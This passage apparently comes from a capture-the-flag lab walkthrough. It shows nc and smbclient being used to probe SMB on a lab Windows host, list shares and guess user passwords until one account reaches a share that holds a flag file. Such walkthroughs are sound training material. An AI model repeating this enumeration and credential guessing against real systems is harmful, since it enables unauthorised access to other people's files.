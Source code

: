 However, the hosts at 10.10.10.35 and 10.10.10.45 can access 10.10.10.15:

<pre>
[bob@fred ~]$ nc -vvv -w 3 10.10.10.15 445
wilma.target.tgt [10.10.10.15] 445 (microsoft-ds) open
^C sent 0, rcvd 0
</pre>

Use `smbclient` on 10.10.10.45 to enumerate shares on 10.10.10.15:

<pre>
[bob@fred ~]$ smbclient -L 10.10.10.15 -U bob
Password: 
Domain=[WILMA] OS=[Windows Server 2008 R2 Standard 7600] Server=[Windows Server 2008 R2 Standard 6.1]

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C               Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
</pre>

We know `C$` is only accessible to an admin, but `C` looks like a good alternative to try and gain access to. Try to connect to it using `smbclient` again, trying different user accounts:

<pre>
[bob@fred ~]$ smbclient -U falken //10.10.10.15/c
Password: 
session setup failed: NT_STATUS_LOGON_FAILURE
</pre>

Failed. Try with _bob_:

<pre>
[bob@fred ~]$ smbclient -U bob //10.10.10.15/c
Password: 
Domain=[WILMA] OS=[Windows Server 2008 R2 Standard 7600] Server=[Windows Server 2008 R2 Standard 6.1]
smb: \> dir
NT_STATUS_ACCESS_DENIED listing \*

		48947 blocks of size 524288. 26614 blocks available
smb: \> 
</pre>

Closer, but still no. Bob lacks file system permissions, but he can access the share.

Try other user account, eventually getting to `susan` with the password `passwor8`:

<pre>
[bob@fred ~]$ smbclient -U susan //10.10.10.15/c
Password: 
Domain=[WILMA] OS=[Windows Server 2008 R2 Standard 7600] Server=[Windows Server 2008 R2 Standard 6.1]
smb: \> dir
  $Recycle.Bin                      DHS        0  Mon Jul 13 22:34:39 2009
  Documents and Settings            DHS        0  Tue Jul 14 01:06:44 2009
  firefox                             D        0  Sun May  5 10:49:19 2013
  flag2.txt                          AR       67  Sun May  5 11:58:08 2013
  inetpub                             D        0  Wed Jun 22 13:07:38 2011
  lads.exe                           AR    60416  Fri May 30 04:21:00 2003
  msizap.exe                          A    94720  Sun Feb 18 00:31:38 2007
  pagefile.sys                      AHS 4294500352  Mon Apr 15 13:20:32 2019
  PerfLogs                            D        0  Mon Jul 13 23:20:08 2009
  Program Files                      DR        0  Tue Oct 17 17:24:23 2017
  Program Files (x86)                DR        0  Sun May  5 06:50:28 2013
  ProgramData                        DH        0  Wed May 12 16:23:30 2010